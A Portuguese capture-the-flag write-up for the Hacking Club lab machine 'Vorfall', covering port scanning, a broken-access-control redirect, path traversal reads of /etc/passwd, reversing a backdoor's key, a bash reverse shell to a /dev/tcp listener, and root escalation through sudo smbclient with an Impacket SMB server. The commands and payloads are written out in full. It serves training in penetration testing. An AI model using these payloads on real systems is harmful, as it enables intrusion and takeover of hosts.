


# Vorfall (Hacking Club)
### Esse desafio possui vulnerabilidade de Broken Access Control, LFI, Path Traversal e RCE, permitindo execução de comandos e escalonamento via impacket.

## Começaremos enumerando as portas utilizando o Rustscan utilizando o seguinte comando:
```bash
rustscan -a <machine-ip>
```


## Encontramos então as portas 22, 80, 139, 2385 e 445;
## Acessando o IP, nos deparamos com a seguinte página: 


## A página não tem nada além de login, sem uma área de registro. Então, vamos enumerar os diretórios utilizando a ferramenta **ffuf** com o seguinte comando:

```bash
ffuf -c -u "http://<machine-ip>/FUZZ" -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 150 -fs 1539
```

### dica: ao utilizar o parâmetro -fs (file size) 1539, nós excluímos as páginas 404 e aceleramos o processo de enumeração.


## Observamos que a aplicação está vulnerável a Broken Access Control , pois a rota “incidents” nos redireciona (código de status 302 ), mas ainda assim exibe seu conteúdo. Normalmente, o tamanho ("size") de uma página que realiza redirecionamento é baixo. No entanto, conforme identificado pelo ffuf , a página incidents está retornando um tamanho de 4818 bytes , o que sugere que o conteúdo está sendo carregado mesmo com o redirecionamento.

## Ao acessar essa página com um navegador comum, seremos redirecionados antes de conseguir visualizar o conteúdo. Para contornar esse comportamento, podemos utilizar o curl , que permite ignorar o redirecionamento e inspecionar o conteúdo diretamente:

```bash
curl -i http://<URL>/incidents
```


## Observamos que essa página lista os incidentes ocorridos na empresa Vorfall . Dentre eles, há um incidente chamado “Malware attack” . Os detalhes desse incidente estão disponíveis no endpoint “/incidents?view=malware-details.txt” .
## Para acessar e ler os detalhes do incidente “Malware attack” , utilizamos o comando curl :

```bash
curl 'http://<machine-ip>/incidents?view=malware-details.txt'
```


## Nos detalhes do incidente, identificamos o caminho onde a backdoor está localizada.
## Ao enumerar as vulnerabilidades da aplicação, percebemos que o parâmetro “view” da rota “incidents” especifica um arquivo TXT . Isso nos levou a testar um ataque de Path Traversal para tentar ler arquivos sensíveis do servidor. Utilizamos o seguinte comando com curl :

```bash
curl 'http://<machine-ip>/incidents?view=../../../../../../../../etc/passwd'
```


## Com o LFI, podemos fazer o download da backdoor:
```bash
curl 'http://<machine-ip>/incidents?view=../../../../../../../../home/share/smbuser/firefox' -o firefox
```


## Ao executar o comando file firefox, observamos que o arquivo não é um ELF , mas sim identificado como DATA . Isso ocorre porque, ao fazer o download da backdoor, o código HTML da página “incidents” foi incluído no arquivo. Para corrigir isso, precisamos remover o conteúdo desnecessário. Utilizei o editor de texto nano para realizar essa limpeza:


## Para esse código, utilizaremos a ferramenta **Ghidra**:


## Na função main , podemos realizar a análise do código. Observamos que esse binário possui um socket e está configurado para escutar na porta 2385 .


## Lembrando do resultado do portscanning no começo, lembramos que a porta 2385 está realmente abertam então vamos nos conectar a ela usando netcat:


## Novamente no Ghidra, vemos que na linha 75 na main, existe uma comparação do input do usuário com a variável "local_1027"




## A varíavel local_1027 e outras abaixo dela são strings em hex, então podemos utilizar python3 para fazer o decode do hex: 


## Devido ao formato **little endian**, as strings aparecem invertidas. Ao reorganizá-las na ordem correta, conseguimos obter uma **key** válida.


## Vemos que a backdoor faz a validação da key e após isso executa o comando no sistema:


## Então, ao enviar a string backd00r2k23@_id, o comando id será executado no servidor. Para testar isso, podemos usar o netcat para se conectar à porta 2385 do servidor e enviar a string:
```bash
echo "backd00r2k23@_id" | nc 172.31.21.126 2385
```


## Com a capacidade de execução de comandos, podemos obter um reverse shell . Para isso, configuramos o netcat para aguardar conexões na porta 80 :
```bash
sudo nc -lvp 80
```
## Em seguida, enviamos a seguinte payload de reverse shell através do campo vulnerável:
```bash
backd00r2k23@_/bin/bash -c "bash -i >& /dev/tcp/<your-ip>/80 0>&1"
```


## Ao enviar a payload, recebemos uma shell interativa no netcat:


## Para obter uma shell totalmente interativa, execute os seguintes comandos:
```bash
export TERM=xterm
script /dev/null -c bash
```
## Pressione Control + Z para suspender a sessão e, em seguida, execute:
```bash
stty raw -echo && fg
```
## Com a shell, podemos então obter a flag de user:


## Ao enumerar as permissões de sudo do usuário, verificamos que ele pode executar o smbclient como root :


## Uma pesquisa rápida no [GTFObins](https://gtfobins.github.io/gtfobins/smbclient/) revelou que é possível obter acesso root ao se conectar a um servidor SMB e executar o comando !/bin/sh. Isso permite chamar uma shell interativa como usuário root, já que o smbclient está sendo executado com privilégios de root.

## Para configurarmos um servidor SMB , podemos utilizar o Impacket , uma poderosa coleção de scripts Python para trabalhar com protocolos de rede. O repositório oficial do Impacket pode ser encontrado no seguinte link:
### https://github.com/fortra/impacket.git

## Para clonar o repositório e configurar o servidor SMB, execute os seguintes comandos:
```bash
git clone https://github.com/fortra/impacket
cd impacket
pip install -r requirements.txt
python setup.py install
```
```bash
virtualenv -p /usr/bin/python3 venv
bash
Write-Up - Vorfall 15
source venv/bin/activate
pip3 install impacket/
```

## Com o Impacket configurado, podemos iniciar um servidor SMB executando o seguinte comando:

```bash
sudo python3 impacket/examples/smbserver.py share /tmp -smb2support
```

## Esse comando cria um compartilhamento SMB chamado share, apontando para o diretório /tmp local. A flag -smb2support garante que o servidor seja compatível com o protocolo SMB2, ampliando a conectividade com sistemas que utilizam versões mais recentes do protocolo.

## Com o servidor SMB configurado, podemos obter acesso root na máquina alvo executando os seguintes comandos:
```bash
sudo smbclient //<your-ip>/share
!/bin/sh
```


## O comando smbclient conecta-se ao compartilhamento SMB configurado, e o !/bin/sh invoca uma shell interativa com privilégios elevados, já que o smbclient está sendo executado como root .

## Obtendo a flag de root:
```bash
cat /root/root.txt
```


### Fim! Nesse write-up, gostaria de agradecer ao tris0n, pois perdi meus prints e utilizei os dele, obrigado por compartilhar os mesmos! 


